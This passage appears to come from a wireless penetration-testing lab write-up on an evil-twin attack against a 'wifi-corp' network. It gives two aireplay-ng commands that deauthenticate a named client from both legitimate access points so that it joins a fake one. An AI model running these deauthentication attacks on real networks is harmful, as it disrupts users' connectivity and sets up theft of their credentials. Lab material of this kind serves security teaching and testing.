 ![](image58.png)
Illustration 56. Running the EAP_Hamer tool.

The fake AP is already running. Airplay-ng must now be used to deauthenticate clients from the original wifi-corp networks. There are two APs, so you have to attack both to prevent clients from connecting to the other AP that isn't being attacked. The following commands must be executed in parallel:
```sh
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:07:6C:40
```

These aireplay-ng commands target client 1, with MAC 64:32:A8:07:6C:40.

![](image59.png)
Illustration 57. Running aireplay-ng against AP 1.
